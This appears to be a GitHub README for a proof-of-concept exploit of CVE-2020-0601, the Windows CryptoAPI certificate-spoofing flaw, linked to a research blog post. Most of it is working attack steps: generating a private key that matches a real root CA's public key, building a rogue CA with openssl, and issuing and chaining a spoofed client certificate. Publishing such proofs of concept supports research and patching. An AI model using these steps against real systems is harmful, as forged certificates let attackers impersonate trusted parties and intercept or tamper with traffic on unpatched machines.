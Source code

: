 # CryptoAPI

CVE-2020-0601: Windows CryptoAPI Spoofing Vulnerability exploitation. More information in our [blog post](https://research.kudelskisecurity.com/2020/01/15/cve-2020-0601-the-chainoffools-attack-explained-with-poc).

# Install requirements

```bash
pip install -U -r requirements.txt
```

# CA certificate

We used the [USERTrust ECC Certification Authority](http://www.tbs-x509.com/USERTrustECCCertificationAuthority.crt) but it can be any root certificate working on P-384 curve.

To generate a private key which match the public key from the root certificate we used the script **gen-key.py** (works with Python 3.6 and above):
```bash
$ ./gen-key.py RootCert.pem 
```

The key can be displayed with:
```bash
$ openssl ec -in p384-key-rogue.pem -text
```

Then to generate the rogue CA:

```bash
$ openssl req -key p384-key-rogue.pem -new -out ca-rogue.pem -x509 -config ca.cnf -days 500
```

Then we generate the following private key and certificate:
```bash
openssl ecparam -name prime256v1 -genkey -noout -out prime256v1-privkey.pem

openssl req -key prime256v1-privkey.pem -config openssl.cnf -new -out prime256v1.csr

openssl x509 -req -in prime256v1.csr -CA ca-rogue.pem -CAkey p384-key-rogue.pem -CAcreateserial -out client-cert.pem -days 500 -extensions v3_req -extfile openssl.cnf 
```

Finally to have the complete chain in a single file we concatenate the CA and the server certificates:
```bash
cat client-cert.pem ca-rogue.pem > cert.pem
```